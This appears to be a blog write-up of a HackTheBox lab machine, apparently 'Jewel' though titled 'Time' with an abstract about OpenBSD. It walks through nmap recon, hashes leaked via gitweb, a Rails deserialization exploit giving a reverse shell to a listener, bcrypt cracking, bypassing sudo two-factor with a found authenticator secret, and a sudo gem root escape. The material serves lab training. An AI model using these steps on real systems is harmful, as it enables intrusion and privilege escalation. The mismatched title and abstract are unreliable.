 ```yaml
---
layout: post
title:  "HackTheBox Time Writeup" 
tags: hackthebox
categories: hackthebox active-machine 
rel-img: /assets/img/htb/time/time.png
description: Exploiting ruby on rails vulnerability to gain first access, escalating priviledge using google authenticator and take advantage to sudo and gem to conquer the machine!!
---
```


### Hackthebox TIme Writeup
![Jewel](/assets/img/htb/time/time.png)

## Abstract

Expoit OpenBSD vulnerabilities to conquer the machine!!

## Summary
1. Initial foothold
  - Nmap recon
  - gitweb enum
  - phusion passenger exploration
2. Ruby on Rails Deserialization Attack
3. User Flag
4. Priviledge Escalation
5. Root Flag

## Initial foothold

### Nmap recon

```
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 09:27 CEST
Nmap scan report for 10.10.10.211                                                                                                                                                                                                          
Host is up, received echo-reply ttl 63 (0.053s latency).                                                                                                                                                                                   
Scanned at 2020-10-23 09:27:54 CEST for 23s                                                                                                                                                                                                
Not shown: 997 filtered ports                                                                                                                                                                                                              
Reason: 997 no-responses                                                                                                                                                                                                                   
PORT     STATE SERVICE REASON         VERSION                                                                                                                                                                                              
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                                             
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)                                                                                                                                                                             
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDK1T+N61bTR89bPSsTtguCPwCtq5IAemU5F9VO6hSw8hnLrQ+3Bx6Cjci6MFx9RAMOS4xVtsmqtDvmjrtQ5hYuOYXlafsv6QU+6LJ+vImDSXiunRdpck3Z6f8sIEOOtiCJZ9HDiAzE62nolJPe2ObtU/Of627MiAksFh6+oBl/ZoWnveQwY7TLgFf19IhHV4Q9OPUlqeokiWiTazbvj5jC8vWcnl+DpN3xTuiTV8b+xUyXnFyO/MBaKhRGBbcbBwOsFVPc8NFyuyardVWEblS+p6B1QG6C62/o2Ft8x9lk1cYEDaFH+IfIUGhHykFQlA8+Y4qee8+OtRKrfwkVyxOr                                                                                        
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)                                                                                                                                                                            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBgCpUS3ovp4tAKRfsFll+x5W6F28nQMhBrx06jDhK35Z10da2PX2vayLOniUTEsnb0hL/4phtNdI+QOKLPX+sg=                                                                         
|   256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)                                                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA9poXYE6YrgNaTFpdzYtMPUeSwB416uWFLSrT55iwv0                                                                                                                                                         
8000/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.38                                                                                                                                                                                  
|_http-generator: gitweb/2.20.1 git/2.20.1                                                                                                                                                                                                 
| http-methods:                                                                                                                                                                                                                            
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                                               
| http-open-proxy: Potentially OPEN proxy.                                                                                                                                                                                                 
|_Methods supported:CONNECTION                                                                                                                                                                                                             
|_http-server-header: Apache/2.4.38 (Debian)                                                                                                                                                                                               
| http-title: 10.10.10.211 Git                                                                                                                                                                                                             
|_Requested resource was http://10.10.10.211:8000/gitweb/                                                                                                                                                                                  
8080/tcp open  http    syn-ack ttl 63 nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (91%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.39 - 3.2 (86%), Infomir MAG-250 set-top box (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=10/23%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5F928611%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10C%TI=Z%II=I%TS=A)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)
```

Nmap revealed that port 22, 8000 and 8080 was open and SSH, Apache2 ,nginx webserver was respectively running on. Morevoer Nmap script gave information that webserver on 8000 was using gitweb 2.20.1 interface. 

### Gitweb enum

I started by searching for gitweb 2.21.1 available exploits but found nothing. Then i moved on enumerating gitweb web pages and found interesting file named bd.sql at URL http://10.10.10.211:8000/gitweb/?p=.git;a=blob;f=bd.sql;h=a7fddb693ca735f8aa1e4b09046cec2adddddc51;hb=HEAD, containing bill and jennifer user hashes:

`bill`:`$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`
`jennifer`:`$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy`

![gitweb file page](/assets/img/htb/jewel/jewel-gitweb.png)

I tried to crack these hashes but every attempt failed.

### Pushion Passenger exploration

So i decided to exploring web server on 8080 where Phusion Passenger 6.0.6 was running. I did not find any available eploit for this service, then i tried to register new account tthrough signup page:

![login page](/assets/img/htb/jewel/homepage-jewel.png)

After logging in i tried some attack but no luck. 

## Ruby on Rails Deserialization attack

After getting some hints from the HTB forum found that the ruby on rails version running on webserver was < 5.2.4.3 and it was vulnerable to deserialization attack (I found ruby on rails version at the URL http://10.10.10.211:8000/gitweb/?p=.git;a=commitdiff;h=5d6f436256c9575fbc7b1fb9621b18f0f8656741.

More information about this vulnerability can be found at Google Forum (https://groups.google.com/forum/#!topic/ruby-security-ann/OEWeyjD7NHY).

Following the PoC found at GitHub (https://github.com/masahiro331/CVE-2020-8165) and the python script created by @randomname83 i got reverse shell.

```
sh4ck@kali:~$ python3 exploit_poc_cve-2020-8165.py 10.10.10.211 10.10.14.83 4545

sh4ck@kali:~$ nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.10.211] 44778
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$i
``` 

## User Flag

After upgrading full interactive shell i got user flag under home bill folder.

```
bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bill@jewel:~/blog$ export TERM=xterm
bill@jewel:~/blog$ cat user.txt
```
## Priviledge Escalation

Linpeas found two password hashes inside the file dump_2020-08-27.sql and bd.sql at /var/backups/ and /home/bill/blog/ respectively:

`jennifer` : `$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd5I02OnmkKnD3zA6MqMrzLKz0jeDO`

`Unknown`: `$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`

Listing the content of dump_2020-08-27.sql file got another hash of user bill:

`bill`: `$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`

Tried to crack these hashes using john.

`$ sudo john --format=bcrypt creds.hash --wordlist=/usr/share/wordlists/rockyou.txt`

John has successfully cracked the hash and the credential is bill : spongebob. 

Tried to run the command $sudo -l  again to check any special privilege given to user bill, but it asked a Verification Code after entering the password. 
It appears that there is some two factor authentication enabled for normal users to run $sudo -l command. 
After some more enumeration got a hidden file google_authenticator inside the home directory (.google_authenticator). 
There is secret code inside this file which is 2UQI3R52WFCLE6JTLDCSJYMJH4, this code can be used to generate OTP.  
I have used authenticator addons for Firefox to generate OTP using this secret key. 

After addons installation and setting the OTP with secret key, i got otp time based number.

Copy the OTP and type the command $sudo -l then password spongebob then enter OTP as Verification code.
anyway i got some error. the issue was determinated bay time misalignment between remote server and my machine. So i had to set my machine time as per remote box. 
sudo -l revealed that user bill can run all the command using gem binary. 

```
bill@jewel:~/blog$ date
date
Mon 19 Oct 10:05:30 BST 2020
bill@jewel:~/blog$ sudo -l
sudo -l
[sudo] password for bill: spongebob

Verification code: 672111

Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
```

## Root Flag

From GTFOBIN found gem binary privilege escalation vector using Sudo Right Exploitation to get root. Let us get root shell and capture root flag.
Getting Root Shell

```
bill@jewel:~/blog$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
```
